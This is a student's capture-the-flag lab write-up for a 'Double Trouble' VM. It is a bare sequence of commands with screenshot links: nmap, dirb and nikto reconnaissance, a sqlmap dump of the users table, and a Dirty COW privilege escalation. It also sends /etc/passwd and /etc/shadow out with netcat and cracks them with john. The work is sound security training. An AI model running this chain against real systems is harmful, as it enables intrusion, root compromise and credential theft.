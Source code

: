 ﻿# Double Trouble 192.168.56.105
## Andrea Zonnekus 18758119


sudo netdiscover -i eth0

![](double_trouble2_steps/Aspose.Words.53a25eb2-2096-4f0c-ae20-1ac4838de435.001.png)

sudo nmap --vv -sS -sV --script="default or safe" 192.168.56.105 -Pn -oN host

![](double_trouble2_steps/Aspose.Words.53a25eb2-2096-4f0c-ae20-1ac4838de435.002.png)

dirb http://192.168.56.105 -o dirb

![](double_trouble2_steps/Aspose.Words.53a25eb2-2096-4f0c-ae20-1ac4838de435.003.png)

nikto -o nikto -Format text -h 192.168.56.105

![](double_trouble2_steps/Aspose.Words.53a25eb2-2096-4f0c-ae20-1ac4838de435.004.png)


sudo dirb http://192.168.56.105 /usr/share/dirb/wordlists/vulns/cgis.txt -o dirb\_cgis\_wordlist

![](double_trouble2_steps/Aspose.Words.53a25eb2-2096-4f0c-ae20-1ac4838de435.005.png)

sqlmap -u http://192.168.56.105/index.php --forms --random-agent --dump-all

![](double_trouble2_steps/Aspose.Words.53a25eb2-2096-4f0c-ae20-1ac4838de435.006.png)

![](double_trouble2_steps/Aspose.Words.53a25eb2-2096-4f0c-ae20-1ac4838de435.007.png)

(takes too long)

sqlmap -u http://192.168.56.105/index.php --forms --random-agent --tables

![](double_trouble2_steps/Aspose.Words.53a25eb2-2096-4f0c-ae20-1ac4838de435.008.png)

sqlmap -u http://192.168.56.105/index.php --forms --random-agent --dump users –level 5

![](double_trouble2_steps/Aspose.Words.53a25eb2-2096-4f0c-ae20-1ac4838de435.009.png)



ssh <clapton@192.168.56.105>

![](double_trouble2_steps/Aspose.Words.53a25eb2-2096-4f0c-ae20-1ac4838de435.010.png)

ping

![](double_trouble2_steps/Aspose.Words.53a25eb2-2096-4f0c-ae20-1ac4838de435.011.png)

ls -lah

![](double_trouble2_steps/Aspose.Words.53a25eb2-2096-4f0c-ae20-1ac4838de435.012.png)

uname -r

![](double_trouble2_steps/Aspose.Words.53a25eb2-2096-4f0c-ae20-1ac4838de435.013.png)

find / -perm -u=s -type f 2>/dev/null

![](double_trouble2_steps/Aspose.Words.53a25eb2-2096-4f0c-ae20-1ac4838de435.014.png)

find / -user root \(-perm -4000 -o -perm -2000 \) 2>/dev/null

![](double_trouble2_steps/Aspose.Words.53a25eb2-2096-4f0c-ae20-1ac4838de435.015.png)




cat /etc/passwd | nc 192.168.56.105 666

nc -lp 666 > 666

![](double_trouble2_steps/Aspose.Words.53a25eb2-2096-4f0c-ae20-1ac4838de435.016.png)

ls -lah /var/www

![](double_trouble2_steps/Aspose.Words.53a25eb2-2096-4f0c-ae20-1ac4838de435.017.png)

sudo cp dirty64.c /var/www && cd /var/www

![](double_trouble2_steps/Aspose.Words.53a25eb2-2096-4f0c-ae20-1ac4838de435.018.png)

python3 -m http.server 

![](double_trouble2_steps/Aspose.Words.53a25eb2-2096-4f0c-ae20-1ac4838de435.019.png)

wget 192.168.56.102:8000/dirty64.c

![](double_trouble2_steps/Aspose.Words.53a25eb2-2096-4f0c-ae20-1ac4838de435.020.png)

gcc dirty64.c -o cow -pthread

![](double_trouble2_steps/Aspose.Words.53a25eb2-2096-4f0c-ae20-1ac4838de435.021.png)



./cow

![](double_trouble2_steps/Aspose.Words.53a25eb2-2096-4f0c-ae20-1ac4838de435.022.png)

cd ~

ls -lah

cat root.txt

![](double_trouble2_steps/Aspose.Words.53a25eb2-2096-4f0c-ae20-1ac4838de435.023.png)

nc -lp 4444 > shadow

![](double_trouble2_steps/Aspose.Words.53a25eb2-2096-4f0c-ae20-1ac4838de435.024.png)

cat /etc/shadow | nc 192.168.56.102 4444

![](double_trouble2_steps/Aspose.Words.53a25eb2-2096-4f0c-ae20-1ac4838de435.025.png)

john –incremental passwd shadow

![](double_trouble2_steps/Aspose.Words.53a25eb2-2096-4f0c-ae20-1ac4838de435.026.png)
